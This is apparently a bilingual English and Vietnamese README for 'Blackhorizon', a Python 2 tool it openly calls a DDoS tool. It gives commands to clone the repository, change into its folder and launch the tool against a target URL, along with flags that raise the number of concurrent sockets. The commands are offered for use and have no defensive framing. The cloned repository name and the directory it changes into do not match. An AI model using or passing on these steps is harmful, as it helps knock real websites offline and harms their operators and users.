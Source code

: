 ## English
# How to install the Blackhorizon DDoS tool?
*`git clone https://github.com/le-cuong-hacker1111/Black.git`

*`cd Blackhorizon`

# How to use the Blackhorizon DDoS tool?
*`python2 blackhorizon.py`

*`python2 blackhorizon.py https://www.example.com -s 30 -c 30`

# -c, --clounds Number of concurrent clounds     (default: 1)

# -s, --sockets Number of concurrent sockets     (default: 1)

## Việt Nam
# Làm thế nào để cài đặt tool DDoS Blackhorizon?
*`git clone https://github.com/le-cuong-hacker1111/Black.git`

*`cd Blackhorizon`

# Làm thế nào để sử dụng tool DDoS Blackhorizon
*`python2 blackhorizon.py`

*`python2 blackhorizon.py https://www.example.com -s 30 -c 30`

# -c, --clounds Số lượng cụm đồng thời (mặc định: 1)

# -s, --sockets Số lượng ổ cắm đồng thời (mặc định: 1)
